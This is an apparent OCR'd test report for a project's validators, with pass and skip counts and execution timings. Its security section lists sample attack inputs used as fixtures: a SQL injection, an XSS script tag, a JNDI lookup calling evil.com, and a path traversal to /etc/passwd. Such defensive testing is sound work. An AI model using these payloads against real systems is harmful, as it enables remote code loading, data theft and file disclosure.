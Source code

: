 ```python
   - Corrupted image detection
   - Color mode validation
   - Common size testing

 PromptValidator (16 tests)

   - Length validation
   - Empty/whitespace rejection
   - SQL injection protection
   - XSS protection
   - Command injection protection
   - Special character handling
   - Unicode support
   - Prompt normalization

 SecurityValidation (8 tests)

   - Path traversal protection
   - Secure filename generation
   - Integer overflow protection
   - Type validation
   - Malicious input detection

```text

## # # Results (3)

```text
 8/8 security tests passing (100% success rate)
⏭ 40/48 tests skipped (awaiting validator implementation)
âš¡ 0.42 seconds execution time
 Core security validation working

```text

## # # Security Tests Passing

- test_path_traversal_protection
- test_secure_filename_generation
- test_integer_overflow_protection
- test_type_validation
- test_malicious_input_detection (4 parametrized):
- SQL injection: `'; DROP TABLE users--`
- XSS attack: `<script>alert('XSS')</script>`
- JNDI injection: `${jndi:ldap://evil.com/a}`
- Path traversal: `../../../etc/passwd`

---

## # # [METRICS] PERFORMANCE ANALYSIS

## # # Test Execution Performance

| Test Suite         | Tests   | Duration  | Avg/Test |
| ------------------ | ------- | --------- | -------- |
| test_stl_processor | 24      | 1.73s     | 72ms     |
| test_config        | 37      | 0.42s     | 11ms     |
| test_validation    | 48      | 0.42s     | 9ms      |
| **TOTAL**          | **109** | **2.57s** | **24ms** |

## # # Performance Grade:****EXCELLENT

- All tests complete in <3 seconds
```
